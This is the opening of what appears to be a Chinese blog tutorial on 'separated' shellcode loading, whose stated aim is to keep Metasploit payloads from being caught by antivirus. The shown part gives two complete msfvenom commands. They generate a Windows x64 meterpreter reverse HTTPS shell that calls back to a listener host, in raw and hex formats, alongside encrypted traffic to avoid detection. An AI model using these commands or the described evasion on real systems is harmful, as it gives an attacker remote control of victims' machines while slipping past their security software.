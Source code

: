 # 简介

本文详细介绍了如何通过文件加载和远程URL加载方式实现Shellcode分离加载，以规避安全软件的检测。文章首先描述了通过Metasploit Framework生成的shellcode文件加载的过程，并提供了相关的C++代码。

为了避免被杀毒软件检测，利用动态API调用和lazy_importer项目进行代码优化。其次，文章讨论了如何通过远程URL加载shellcode，也提供了相应的实现代码。整篇文章旨在帮助读者理解shellcode分离加载的具体实现过程和原理，同时通过实践操作增强对这一技术的掌握程度



# 一、通过文件加载

## msf生成shellcode文件

使用`msfvenom`生成raw格式的文本文件, 但是raw格式的文本文件很容易就会被杀软查杀，为了防止通讯特征被检测到，此处我还做了msf流量加密，此处若想了解msf流量加密的朋友可以去看这篇文章：[MSF流量加密](https://blog.csdn.net/xf555er/article/details/128051211?ops_request_misc=&request_id=&biz_id=&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~koosearch~default-1-128051211-null-null.268^v1^koosearch&utm_term=%E6%B5%81%E9%87%8F&spm=1018.2226.3001.4450)

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f raw -o shellcode_raw.txt
```

![image-20230522202357728](shellcode分离加载/image-20230522202357728.png)



为了不被杀软查杀，并将其保存为十六进制格式

```
msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.47.155 lport=4444 PayloadUUIDTracking=true HandlerSSLCert=ssl.pem PayloadUUIDName=henry -f hex -o shellcode_hex.txt
```
